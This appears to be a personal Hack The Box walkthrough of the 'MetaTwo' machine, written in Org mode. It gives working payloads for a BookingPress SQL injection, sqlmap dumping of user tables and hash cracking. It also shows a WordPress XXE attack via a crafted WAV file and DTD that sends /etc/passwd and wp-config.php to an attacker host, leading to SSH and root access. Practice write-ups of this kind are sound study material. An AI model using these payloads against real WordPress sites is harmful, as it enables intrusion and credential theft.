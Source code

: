 #+title: Meta Two
#+latex_compiler: latexmk
#+options: ^:{}

* Connection and nmap
First we connect to the openvpn that HTB provides us and spin the machine
Then we will use nmap, as usual for enumeration:

#+begin_src shell :results output :wrap "quote" :exports code
sudo nmap -sC -sV -T4 10.10.11.186
#+end_src

The options are following:
-sC: to use the default scripts
-sV: probes the open ports for system information
-T4: to define the aggressiveness of the scan

* First steps

We can gather that there are 3 open ports: 21 (ftp), 22 (ssh) and 80 (http).

The version of OpenSSH that is being used does not seem to be vulnerable but
we can try other things such as connecting through ftp:

#+begin_src shell :results output :wrap "quote" :exports code
ftp 10.10.11.186
#+end_src

and trying to log as anonymous. This does not work.

So we are left with the http service which we know that is nginx/1.18.0 and the
hostname is http://metapress.htb/.

We then have to go to /etc/hosts and append the ip and hostname using any text
editor.
This allows us to open the hostname in the browser without any problem.

Of course this is true for Linux (which you probably should be using), in Windows is
a little more complicated and I struggled to be able to do this the first time. I
tried to change the host file in System32, then flush the dns and nothing worked.
Finally I simply installed firefox in WSL2 Kali and I use VcXsrv to view all GUI
apps.

One way or another we should be able to browse the page now.

* Looking for vulnerabilities

We can look at the source code and it does not seem to be leaking any credentials
but we can see it's a Wordpress site. We can play around with the forms and
explore a little. Now we will use wpscan which is a command line tool for Wordpress
security.

#+begin_src shell :results output :wrap "quote" :exports code
wpscan --url http://metapress.htb
#+end_src


You can look them up in https://wpscan.com/wordpress/562 and go through each of
them but if we go back to the source code of the events page we can see that is
using a plugin called Bookingpress and filter our search. In the same page we
can see that there is a SQL injection vulnerability and a proof of concept.  In
the curl command that is provided we can see that is taking advantage of
Wordpress nonces, which we can look in the source code such as the one in the
generateSpamCatcha function.

There is a lot of information there but the first thing that catches the eye is
the fact that is telling us that the version of Wordpress (5.6.2) is identified
as insecure. So we will look for the vulnerabilities associated with this version.

So the command we have to use would look like something like this:
#+begin_src shell :results output :wrap "quote" :exports code
curl -i 'http://metapress.htb.com/wp-admin/admin-ajax.php'--data
'action=bookingpress_front_get_category_services
    &_wpnonce=1b624223cc&category_id=29&total_service=-7507)
UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,-5,-5,-5,-5,-5,-5--
-'
#+end_src


You should replace the nonce with the one that you can find in the source code, and the output will be like this:

#+begin_quote
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 23 Mar 2023 07:08:14 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1",
"bookingpress_category_id":"Debian
11","bookingpress_service_name":"debian-linux-gnu",
"bookingpress_service_price":"$1.00,
"bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3",
"bookingpress_service_description":"4","bookingpress_service_position":"5",
"bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":
"http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg"}]
#+end_quote

* Enumerating databases: Sqlmap

Now we can use sqlmap, which is a tool for automating the process of detecting
and exploiting SQL injection vulnerabilities. We can use it to identify the
database management system, enumerate databases, tables and columns, extract the
data and even run commands.

#+begin_src shell :results output :wrap "quote" :exports code
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php"
--data="action=bookingpress_front_get_category_services&_wpnonce=1b624223cc
    &category_id=33&total_service=1" -p "total_service" --dbs
#+end_src
That way we can enumerate the databases present. I had problems with this command
since it kept saying that the connection was not stable but i just kept trying
and eventually I could do it.

The databases that we could found are two: blog and information_schema.
The first one is the most interesting of the two, clearly.

#+begin_src shell :results output :wrap "quote" :exports code
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php"
--data="action=bookingpress_front_get_category_services&_wpnonce=1b624223cc
    &category_id=33&total_service=1" -D blog --tables
#+end_src
Now we look inside the blog database and enumerate the tables: there is a lot of them
but the first that catches the eye is wp_users. After some horrible looking output
we can see that it found two users, admin and manager.
Along side the names we can see the hashes that correspond to the passwords, so we
will copy them to a file and try to crack them.

* Cracking the passwords: John the Ripper

#+begin_src shell :results output :wrap "quote" :exports code
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt
#+end_src
We are using John the Reaper which is a hashcracking program, in this case we are
using the classic rockyou wordlist that. I had to decompress the rockyou file before
utilizing the command, just so you know.

We see that it found one password, the manager's which is "partylikearockstar".

So we have a username and a password but we have to find out where to enter them.
Although there is no login link in the page, based in our enumeration we know that
there is a subdomain called "wp-admin". So if we go to http://metapress.htb/wp-admin
we will encounter the Wordpress page for authentication, we enter the credentials
and we are in!

* Exploiting XXE

Looking around the vulnerabilities of this version of Wordpress I encounter this
article: https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/
It's a fascinating thing. It essentially uses the metadata of a WAVE file to
inject payload and retrieve information.

#+begin_src shell :results output :wrap "quote" :exports code
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml
      version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM
       '"'"'http://10.10.14.83:1234/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' >
payload.wav
#+end_src
That is the code that the author suggests, the only thing we should change it's the
ip, replacing it with our own and I also changed the port to 1234 for convenience.

Now if we continue with the article we have to send this payload through a dtd file
which will look like this:

#+begin_src shell :results output :wrap "quote" :exports code
<!ENTITY % file SYSTEM
"php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25;
          trick SYSTEM 'http://10.10.14.83:1234/?p=%file;'>">
#+end_src

Again we have to modify the ip and port.

We will start a php server:
#+begin_src shell :results output :wrap "quote" :exports code
php -S 0.0.0.0:1234
#+end_src

And we go the the media page. Then click on add new and upload our payload.wav while
the server is still running. We will get a huge, horrible looking output but we can
decode it using:
#+begin_src shell :results output :wrap "quote" :exports code
echo -en <payload> | base64 -d
#+end_src

Now the output looks much more interesting since these is the passwd file of the
machine we are trying to pawn. Of course if we analyze it there really is nothing
we can do with this. But it is useful to know that the vulnerability can be
exploited.

If we modify the evil.dtd file that we created before to give us the config file of
the page we might be more lucky.
#+begin_src shell :results output :wrap "quote" :exports code
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/
         resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM
         'http://10.10.14.83:1234/?p=%file;'>">
#+end_src

So we upload the payload.wav file again and again we decode the output which will
look like this:

#+begin_src php :results output :wrap "quote" :exports code
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',
'?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',
  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',
    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',
        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',
        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT',
 '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',
   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',
       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

#+end_src

There is a lot of hashes in there but the interesting thing is that we have a method:
FTP, the user and the password (hashed). We already tried to connect to ftp and we
couldn't so maybe this could prove useful.

* Getting the credentials

#+begin_src shell :results output :wrap "quote" :exports code
ftp 10.10.11.186
#+end_src
And we enter our newly found credentials.

If we list the files using ls, we will see two folders: blog and mailer.
We cd to mailer and then download the send_email.php file with the get command.
It will download to our current directory and if we cat it we can see that there are
more credentials!

In particular these two could be used for ssh access:
#+begin_quote
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
#+end_quote

So we will do that:
#+begin_src shell :results output :wrap "quote" :exports code
ssh jnelson@metapress.htb
#+end_src
We input the password and we can see that it works!
Now we can do an ls and find out that there is the user.txt file with the flag that
we want.

* Escalating the privileges :ATTACH:
:PROPERTIES:
:ID:       0374669e-dc91-46ba-afd0-96884e122127
:END:

If we try to use sudo we will see that we cannot. However we can see that there is a
.passpie directory. Passpie is a password manager for Linux and there is a .keys
file inside and a ssh directory. We don't really know if we can use this but it is
worth a try.

So we will copy the private key block of the .keys file to our machine and write it
to a file called key. And use gpg2john to write it to another file unhashed:

#+begin_src shell :results output :wrap "quote" :exports code
gpg2john key > pass_hash
#+end_src

And run it through john again:
#+begin_src sh :results output :wrap "quote" :exports code
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash
#+end_src
And once it is done:
#+begin_src sh :results output :wrap "quote" :exports code
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash
#+end_src

Now we can see that the password is "blink182". We don't know what this is for but
we can find out using:

#+begin_src shell :results output :wrap "quote" :exports code
passpie export pass
#+end_src

And entering "blink182" as the Passphrase. Now we can see that the root user has
'p7qfAZt4_A1xo_0x' as password.

So we will:
#+begin_src shell :results output :wrap "quote" :exports code
su root
#+end_src

And enter that as the password and we are in! We are root!

So let's end this, let's go to /root/root.txt and extract our flag from there.

And that is it! I hope this was informative, I am still a noob but I had a great
time trying to crack this.

#+attr_html: :width 1200px
#+attr_latex: :center nil :height 10cm :width 12cm
[[https://federicopontoriero.github.io/images/test.png]]
